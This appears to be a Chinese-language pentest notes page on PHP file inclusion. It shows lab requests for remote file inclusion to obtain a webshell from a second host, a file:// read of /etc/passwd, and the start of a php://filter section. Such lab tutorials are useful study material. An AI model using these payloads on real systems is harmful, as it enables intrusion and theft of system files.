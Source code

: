 
## 远程文件包含

**利用**

- 不需要猜对方路径，构造webshell直接getshell

**前提条件**

- 前提是能找到这个漏洞~

**文件包含getshell**

- 远程webshell文件如下
  ![](./../../img/文件包含/2022-05-28-14-49-00.png)

<p>


- 远程文件包含getshell

-     http://192.168.10.77/include.php/?file=http://192.168.10.52/xxx.xxx

    ![](./../../img/文件包含/2022-05-28-14-50-13.png)
    ![](./../../img/文件包含/2022-05-28-14-52-59.png)

## file协议文件包含

**利用**

- file://+绝对路径：访问系统本地文件

**前提条件**

- 读取的目标必须知道目标文件绝对路径

**文件读取**

- file协议文件读取

<p>


-     http://192.168.10.77/include.php/?file=file:///etc/passwd

    ![](./../../img/文件包含/2022-05-28-15-05-44.png)

## php://filter协议文件包含

**利用**

- php配置文件直接文件包含php文件读取时会被自动解析，我们可以通过php://filter协议获取文件源码

**前提条件**

- 没有特殊限制，前提是能找到这个漏洞~    

**文件读取**
